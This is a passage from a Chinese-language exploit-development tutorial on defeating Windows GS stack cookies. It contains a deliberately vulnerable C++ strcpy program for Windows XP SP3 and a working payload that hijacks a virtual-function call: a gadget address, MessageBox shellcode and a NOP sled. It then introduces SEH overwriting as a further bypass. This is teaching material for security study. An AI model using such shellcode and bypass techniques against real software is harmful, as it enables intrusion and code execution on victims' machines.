 与上面不同，在windows xp sp3 上调试的代码如下：

请注意shellcode前几行

```c++
#include "stdio.h"
#include "string.h"
class GSVirtual {
	public :
		void gsv(char * src)
		{
			char buf[200];
			strcpy(buf, src);
			vir();
		}
		virtual void vir()
		{
		 	
		}
	};
int main()
{
	GSVirtual test;
	test.gsv(
		"\x6a\xef\x94\x7C" // 0x7c94ef6a address of "pop edi; pop esi; ret"
		"\x01\x90\x94\x90"
		"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
		"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
		"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
		"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
		"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
		"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
		"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
		"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
		"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
		"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
		"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90"
	);//\x90\x90\x90\x90" 
 	return 0;
} 
```

将构建好的 shellcode 作为参数写到程序里，再编译、运行，熟悉的对话框就出现了！

### 攻击异常处理突破 GS 

GS 机制并没有对 S.E.H 提供保护，换句话说我们可以通过攻击程序的异常处理达到绕过GS 的目的。我们首先通过超长字符串覆盖掉异常处理函数指针，然后想办法触发一个异常，程序就会转入异常处理，由于异常处理函数指针已经被我们覆盖，那么我们就可以通过劫持S.E.H 来控制程序的后续流程。如果您记不清异常处理机制的流程了，可以先复习一下。 

我们使用以下的代码来演示如何通过覆盖 S.E.H 来绕过 GS。
